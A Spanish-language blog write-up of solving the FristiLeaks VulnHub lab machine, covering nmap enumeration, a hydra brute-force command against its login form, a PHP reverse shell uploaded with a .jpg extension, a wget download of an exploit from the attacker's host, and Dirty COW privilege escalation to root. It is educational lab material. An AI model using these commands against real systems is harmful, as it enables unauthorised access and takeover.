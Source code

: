 ```yaml
---
layout: post
title: Resolviendo FristiLeaks (WriteUp)
categories: WriteUp
---
```


A continuación voy a relatar el proceso que llevé a cabo para resolver la máquina virtual [FristiLeaks](https://www.vulnhub.com/entry/fristileaks-13,133/). 

### WriteUp

En primer lugar hay que identificar la dirección IP de la máquina virtual objetivo. Esto se puede realizar haciendo uso de arp-scan. En nuestro caso, la dirección IP de FristiLeaks, máquina objetivo, será **192.168.1.70.**

El primer paso dentro de la enumeración será el de ver puertos abiertos y servicios activos en ellos. Para ello hacemos uso de nmap con la instrucción “nmap -Pn -p- 192.168.1.70” para **escanear todos los puertos**. El resultado es el siguiente:

Not shown: 65534 filtered ports  
PORT   STATE SERVICE  
**80/tcp open  http**  

Siendo este un entorno controlado y sin limitaciones ni nada que nos frenes, podríamos haber explotado al máximo la velocidad de nmap haciendo uso de la siguiente instrucción que también escaneará todos los puertos, a más velocidad y nos almacenará el resultado en un fichero llamado allPorts:

“nmap -p- -sS --min-rate 5000 --open -Pn -v -n 192.168.1.70 -oG allPorts”

El resultado que observamos es que solo hay un puerto abierto, que es el 80, por donde corre un servicio web. Para obtener más información sobre el servicio ejecutamos la siguiente instrucción:

 “nmap 192.168.1.70 -Pn -A --script vuln -p80”

Esto nos devuelve que está corriendo la siguiente versión de Apache:

“Apache httpd 2.2.15 ((CentOS) DAV/2 PHP/5.3.3)”

Sobre el sistema operativo nos indica lo siguiente:

```
Running: Linux 2.6.X|3.X
OS CPE: cpe:/o:linux:linux_kernel:2.6 cpe:/o:linux:linux_kernel:3
OS details: Linux 2.6.32 - 3.10, Linux 2.6.32 - 3.13
```

Y el script http-enum de nmap no indica la siguiente información interesante:
```
| http-enum:
|   /robots.txt: Robots file
|   /icons/: Potentially interesting folder w/ directory listing
|_  /images/: Potentially interesting folder w/ directory listing
```

Mientras esto se ejecutaba, por otro lado, se le echa un vistazo rápido a la página web comprobando si dispone de sitemap o robots y **encontramos un robots.txt con la siguiente información:**

```
User-agent: *
Disallow: /cola
Disallow: /sisi
Disallow: /beer
```

Paso a buscar vulnerabilidades y exploits disponibles para la versión 2.2.15 de Apache. Primero a través de la herramienta **searchsploit**, y encuentro lo siguiente:
Apache 2.2.15 mod_proxy - Reverse Proxy Security Bypass

También revisamos la información de vulnerabilidades que tiene registrado **cvedetails.com**, qué son las siguientes: [https://www.cvedetails.com/vulnerability-list/vendor_id-45/product_id-66/version_id-93077/Apache-Http-Server-2.2.15.html](https://www.cvedetails.com/vulnerability-list/vendor_id-45/product_id-66/version_id-93077/Apache-Http-Server-2.2.15.html)

Teniendo también vulnerabilidades concretas y explotables desde Metasploit:
[https://www.cvedetails.com/metasploit-modules/version-93077/Apache-Http-Server-2.2.15.html](https://www.cvedetails.com/metasploit-modules/version-93077/Apache-Http-Server-2.2.15.html).

Los siguientes pasos que llevamos a cabo, sin mucho éxito, son el escaneo del contenido de la página web haciendo uso de DirBuster y un diccionario de directorios, un escaneo de puertos UDP y la revisión de la carpeta “images” detectada anteriormente, la cual solo contiene fotos de Obi-Wan.

El siguiente paso es hacer un reconocimiento de directorios y contenidos de la página web pero más concreto y específico. Para ello hago uso de **CeWL** con la idea de generar un diccionario de palabras que aparezcan en la página web para usarla con DirBuster. Para ello, hago uso del siguiente comando:

**cewl --write fristileaks_words.txt --meta 192.168.1.70**

Y a dicho diccionario generado **le agrego manualmente las palabras encontradas en las imágenes de la página web**, que son las siguientes: keep, calm, drink, fristi, url, looking.

Ahora sí, haciendo uso de DirBuster **se encuentra una carpeta llamada fristi.** En esta ruta hay un panel de administración con un login. 

Pruebo con algunas **inyecciones SQL básicas y contraseñas típicas pero no funciona.** Además, el **mensaje de error devuelto es genérico** (fallo en la contraseña o el usuario) por lo que no podemos usar el panel para averiguar nombres de usuario. 

Paso a **analizar el código de la web.** Para comenzar me llama la atención la imagen, puesto que esta **imagen no está listada en la carpeta** /images/. En el código indica, como comentario, que **se utiliza base64 encoding para cargar la imagen.** 

Después del código de la imagen hay un **código similar comentado, lo introduzco en un decodificador base64 online y me indica que es una imagen PNG** pero no me la muestra. Con las propias **herramientas del navegador** modifico el código de la web cambiando el código base64 de la imagen original por la nueva, y **me devuelve la siguiente imagen**:

![FristiLeaks 01]({{ site.baseurl }}/images/fristileaks01.png)

Vemos que nos devuelve la frase **keKkeKKeKKeKkEkkEk.**
La pruebo con admin, fristi y algunas cosas más pero no hay éxito.

Con **CeWL** genero un **nuevo diccionario** de la web del panel de administración. 
**Combino el diccionario que tenía anteriormente con el nuevo, además le agrego al diccionario la palabra de la imagen** y limpio un poco el segundo diccionario que, a causa de la forma de cargar las imágenes usando encode base64, estaba lleno de strings sin sentido. 

Mi idea es utilizar **hydra para realizar fuerza bruta usando este diccionario como nombre de usuario y como contraseña.** Para ello, haciendo uso de las herramientas del navegador, compruebo que el usuario y la contraseña se comprueban con un POST hacia http://192.168.1.70/fristi/checklogin.php y anoto las tres variables que se les pasa (myusername, mypassword y Submit).

Con esta información construyo el siguiente comando de hydra:

```
hydra 192.168.1.70 http-form-post "/fristi/checklogin.php:myusername=^USER^&mypassword=^PASS^&Submit=Login:Wrong Username or Password" -L  /home/vant/Escritorio/Pruebas/fristileaks_words.txt -P /home/vant/Escritorio/Pruebas/fristileaks_words.txt
```
Dando el siguiente resultado:

![FristiLeaks 02]({{ site.baseurl }}/images/fristileaks02.png)

Podemos ver que se realizan 10201 intentos de iniciar sesión y **se encuentra un acceso válido con el nombre de usuario eezeepz y la contraseña keKkeKKeKKeKkEkkEk.**

Entro en el panel de administración y me muestra la **opción de subir ficheros.** Lo primero que intento es subir una reverse shell en PHP directamente, pero el servidor no me deja, me dice lo siguiente:
“Sorry, is not a valid file. Only allowed are: png,jpg,gif
Sorry, file not uploaded”

Pruebo a **renombrar el fichero poniéndole en el final .jpg. El servidor se lo traga y el fichero es subido, mostrándome lo siguiente:**
“Uploading, please wait
The file has been uploaded to /uploads”.

En la reverse shell definí mi IP y el puerto al que tendrá que conectarse. Por lo que antes de ejecutarla abro un netcat en mi ordenador con el siguiente comando **“nc -nlvp 1234”** siendo 1234 dicho puerto definido en la reverse shell. Lo dejo en escucha y **abro en el navegador el siguiente enlace:** http://192.168.1.70/fristi/uploads/php-reverse-shell.php.jpg 

Se establece la conexión y ya estaríamos dentro de la máquina objetivo:

![FristiLeaks 03]({{ site.baseurl }}/images/fristileaks03.png)

Con “whoami” podemos comprobar que **estamos dentro con el usuario “apache”, por lo que necesitamos una escalada de privilegios.** Para realizar la escalada de privilegios hay muchas cosas que se pueden analizar, existen herramientas como [LinEnum](https://github.com/rebootuser/LinEnum) que ayudan a realizar este análisis. En esta ocasión no es necesaria tanta profundidad. Simplemente **comprobamos con “uname -a” la versión del kernel, la cual es la 2.6.32-573.8.1.el6.x86_64.**

Buscamos en Google exploits de escalada de privilegios para esta versión de kernel, y encuentro el siguiente exploit en ExploitDB: [https://www.exploit-db.com/exploits/10018](https://www.exploit-db.com/exploits/10018).

Una vez descargado en local tenemos que subir dicho exploit a la máquina objetivo. Para eso, me monto un servidor en mi equipo haciendo uso de **SimpleHTTPServer** con la siguiente instrucción: python -m SimpleHTTPServer 8000

**En la máquina objetivo nos descargamos el fichero** en la carpeta /tmp haciendo uso de curl o wget, por ejemplo de la siguiente forma: “wget 192.168.1.45:8000/10018.sh”. Siendo la dirección IP la de la máquina atacante donde tenemos activo el servidor de SimpleHTTPServer. 

Este exploit no consigue su objetivo, no funciona. **Después de probar varios exploits sin éxito llego a un exploit que ataca la vulnerabilidad Dirty COW, el exploit es el siguiente: [https://github.com/FireFart/dirtycow/blob/master/dirty.c](https://github.com/FireFart/dirtycow/blob/master/dirty.c).**
Lo subo a la carpeta /tmp tal como expliqué antes y lo compilo siguiendo las instrucciones que se indican en el propio exploit, es decir, con **“gcc -pthread dirty.c -o dirty -lcrypt”**

Una vez compilado lo ejecuto, le introduzco una contraseña y, después de algunos minutos, termina su ejecución. 

**Esto nos genera un usuario llamado firefart con la contraseña introducida con permisos de root:**

![FristiLeaks 04]({{ site.baseurl }}/images/fristileaks04.png)

De esta forma ya podríamos acceder a la flag:

![FristiLeaks 05]({{ site.baseurl }}/images/fristileaks05.png)

